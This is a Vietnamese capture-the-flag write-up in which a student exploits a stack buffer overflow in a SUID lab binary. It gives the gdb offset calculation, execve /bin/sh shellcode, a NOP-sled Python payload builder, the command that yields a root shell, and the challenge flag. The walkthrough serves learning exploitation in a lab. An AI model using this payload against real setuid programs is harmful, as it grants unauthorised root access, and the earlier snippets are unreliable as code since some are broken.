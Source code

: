 # EXTRA CREDIT - CYBERCLASS


<p align="center">
  <img src="image/a.png"  alt="meo coding logo" style="height: 100px; width:100px;"  />
</p>

<p align="center"> <b> Write up by: Zunn</b></p> 

## **Contents**

- [Introduction](#Introduction)
- [Address the problem](#address-the-problem)
  - [GDB](#gdb-secret)
  - [shellcode](#shellcode)
  - [Nopsled](#nopsled)
- [Flag](#flag)
- [Links](#links)

## **Introduction**

- Công cụ em sử dụng để debug là *gdb (plugin peda)*
- Mã khai khác em viết bằng code *python* .

![alt text](image/de.png "Title")

![alt text](image/2.png "Title")

Đề bài cho ta 1 file **executable** và được chạy dưới quyền **suid**, nhiệm vụ phải lon ton lên root để tìm được **flag**. Đầu tiên chạy file **executable** xem có gì trong đó nào...

## **Address the problem**

![alt text](image/3.png "Title")

Hmmmm.....có vẻ như chương trình chỉ in ra lại những gì đã được nhập vào và không còn thông tin nào thêm. Tuy nhiên, ta sẽ bắt đầu tìm hiểu file binary bằng cách in ra xâu có độ dài khá lớn.

```r
  python3 -c "print( 'a' * 10000)" | ./secret
```

![alt text](image/4.png "Title")

`Segmentation fault` :3 Quả nhiên secret bị crash với test của chúng ta. Dễ dàng nhận thấy lỗ hổng stack base `buffer overflow` rất rõ ràng. 

### **GDB secret**

Để thuận tiện hơn ta sẽ tạo một file  **a.txt** để chứa xâu ta cần nhập và ta dùng echo để ghi đè dữ liệu vào.

```r
echo'padding = 100 * 'a'
print (padding)'> a.py
```

```r
python3 a.py> a.txt
```

Giờ thì mở **gdb** lên để phân tích.

![alt text](image/5.png "Title")

Nhìn vào ta thấy chỗ tốt nhất để **break point** là leave trước return **istruction**. Dòng thứ hai từ dưới main lên.

![alt text](image/6.png "Title")

Sau khi run, dựa vào info name ta xác định được đây là [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow) và `rip at 0x7fffffffe5b8`

Để tìm buffer’s size, một trong những cách ta có thể dùng sẽ lấy `rip - rsp` . Dùng câu lệnh sau để show 24wx từ vị trí đầu stack.

```r
x/24wx $rsp
```

![alt text](image/8.png "Title")

Dòng đầu tiên ta thấy địa chỉ `0x7fffffffe1b0` mang giá trị `0x61616161` : kí tự `a` bé. Đây chính là đầu vào của chúng ta, yeye đã biết địa chỉ đầu stack giờ ta tính **buffer’s size**.

```r
 p/d 0x7fffffffe5b8 - 0x7fffffffe1b0
```

![alt text](image/9.png "Title")

Vậy **buffer's size** sẽ là 1032 kí tự *a*.

### **Shellcode**

Chuyện gì sẽ xảy ra nếu như ta thay đổi thanh ghi **RIP** thành địa chỉ Shellcode, rõ ràng, chương trình sẽ chạy Shellcode của chúng ta rồi. Thú vị rồi đây.

Khá là đầy đủ thông tin,  giờ ta tiến hành tìm một đoạn shellcode trên **Google** (shell-storm, exploit-db, packetstormsecurity,..). Có kha khá khác nhau để code shell nhưng em sẽ dùng cách **`padding + RIP + NOP + shellcode`**

`Shellcode: Là đoạn code mà chúng ta muốn chương trình execute.`

Dựa vào các thông tin như: 64 bit và file binary chạy dưới quyền **suid**. Vậy shellcode sẽ thực thi **/bin/sh** thì chúng ta sẽ get a root shell. Ok!! Giờ thì ta lên [Shell-strom](http://shell-storm.org/shellcode/#:~:text=by%20Christina%20Quast-,Intel%20x86%2D64,-Linux/x86%2D64) tìm thôiiiiiiii.

Sau khi tìm kiếm và xem xét điều kiện cần và đủ shell code này là phù hợp:

```r
\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

## **Nopsled**

`Nopsled: 0x90 nghĩa là không thực hiện điều gì`

Về cơ bản, không có thao tác nào được sử dụng để đảm bảo rằng việc khai thác của chúng ta không bị lỗi, bởi vì chúng ta không phải lúc nào cũng trỏ đến đúng địa chỉ.Vì vậy chúng ta thêm những thứ không có tác dụng gì và chúng ta trỏ đến chúng, sau đó khi chương trình thực thi nó. Và quaoo sẽ tiếp cận các NOP đó và tiếp tục thực thi cho đến khi nó đạt đến shellcode.

Giờ ta buid code thoi

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
print (padding + RIP + NOP + shellcode)
```

`Trong quá trình code ta nhận thấy hoặc giờ em mới thấy :))`

[TypeError: can only concatenate str (not "bytes") to str ](
https://bobbyhadz.com/blog/python-typeerror-can-only-concatenate-str-not-bytes-to-str#:~:text=The%20Python%20%22TypeError%3A%20can%20only,string%20before%20concatenating%20the%20strings
)

Giờ chúng ta sẽ gdb để kiểm tra và chọn địa chỉ của NOP ( tốt nhất là nó nằm ở giữa bởi trong quá trình chạy chương trình, địa chỉ có thể chênh lệch khiến NOP mang địa chỉ không theo mong muốn)

![alt text](image/10.png "Title")

Hmmmmmmmm.... chúng ta đang lỗi gì đó dấu '`>`' không chuyển được kí tư utf-8. Giờ ta sẽ nhập xuất file xem như thế nào

```r
import struct
offset = 1032
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

![alt text](image/12.png "Title")

Excute file python thoi -> `python3 a.py > a.txt` và xác định NOP.

![alt text](image/13.png "Title")

Ye rất đúng theo suy nghĩ của chúng ta. Vì shell code chúng ta nằm ở cuối nên ta sẽ in từ vị trí rsp

```r
(gdb) x/100xg $rbp
```
![alt text](image/14.png "Title")

![alt text](image/15.png "Title")

Ta sẽ lấy NOP ở giữa  `0x7fffffffe710` để tránh chênh lệch khi chương trình thực thi. Sau khi có đầy đủ mọi thứ ta sẽ hoàn chỉnh chương trình như sau:

```r
import struct
offset = 1032
RIP = struct.pack('Q',0x7fffffffe710)
shellcode = b'\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'
NOP = b'\x90' * 1000
padding = 1032 * b'a'
p = (padding + RIP + NOP + shellcode)
file = open('a.txt' ,'wb')
file.write(p)
file.close()
```

Tiến hành chạy lại secret xem có lên được shell hay không?

 ```r
 (cat a.txt ; cat) | ./secret
 ```

![alt text](image/16.png "Title")

Okie, code exploit đã chạy và chúng ta đạ execute shellcode thành công. Thế là ta đã thành công lkhai tháo lỗi Buffer Overflow rồi. Giờ lấy flag thoiii!!

## **Flag**

![alt text](image/17.png "Title")

Ta đã leo lên root nên chỉ cần  `cd /root` ta sẽ thấy file tên `flag-whoa.txt` .UwwwwU `cat flag-whoa.txt` ta dễ dàng có được kết quả mong muốn.

 ```r
 CYBERCLASS{WHOA-BAN-DINK-KOUT-WA-CHUC-MUNG-BAN-!!!}
 ```

## **Links**

Vì đây là lần đầu em viết write-up nên em đã tham khảo các nguồn sau:

[First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA)

[Buffer Overflow Examples](https://0xrick.github.io/binary-exploitation/bof5/#stack5)

[Buffer Overflow - in a nutshell](https://viblo.asia/p/buffer-overflow-in-a-nutshell-m68Z0ox6KkG)

[Shellcode là gì?](https://vietnix.vn/shellcode-la-gi/)

[Khai thác Buffer Overflow – Control EIP (Nopsled + Shellcode)](https://hoccyber.com/buffer-overflow-eip/)

